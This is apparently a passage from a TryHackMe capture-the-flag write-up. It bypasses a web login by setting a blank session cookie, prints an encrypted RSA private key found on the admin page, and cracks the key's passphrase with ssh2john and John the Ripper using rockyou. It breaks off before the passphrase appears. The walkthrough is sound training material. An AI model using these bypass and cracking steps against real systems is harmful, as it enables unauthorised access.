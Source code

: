 ```
}
```
The most important section is the ```login()``` function, specifically the ```Cookies.set("SessionToken",statusOrCookie)```. With this information, I can set the Cookie to be blank, which bypasses the if statement (```if (statusOrCookie === "Incorrect credentials")```) and authenticates. I will set the Cookie in the Developer Tools console with: 
```
Cookies.set("SessionToken","")
```
After setting the Cookie, I simply reload the /admin page and I will authenticate and login. 

# Exploitation 

After authenticating, I am presented with an RSA private key on the /admin page: 
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```
I attempted to authenticate with the rsa private key (make sure to set the correct permissions with ```chmod 400 ssh_james```) as ```ssh -i ssh_james james@[THM IP]```. However, it requested a passphrase: 
```
Enter passphrase for key 'ssh_james': 
```
Therefore, I needed to use John the Ripper to crack the passphrase for me. ssh2john is a great python script within john that helps me to format the private key for use with john. 
```
./ssh2john.py ~/TryHackMe/practice/ssh_james > /home/ajread/TryHackMe/practice/ssh_james_hash.txt
```
Now that it is properly formatted, I can attempt to crack the passphrase with John the Ripper. I used rockyou as the wordlist. 
```
./john --wordlist=/home/ajread/resources/wordlists/rockyou.txt /home/ajread/TryHackMe/practice/ssh_james_hash.txt
```
The passphrase returned: 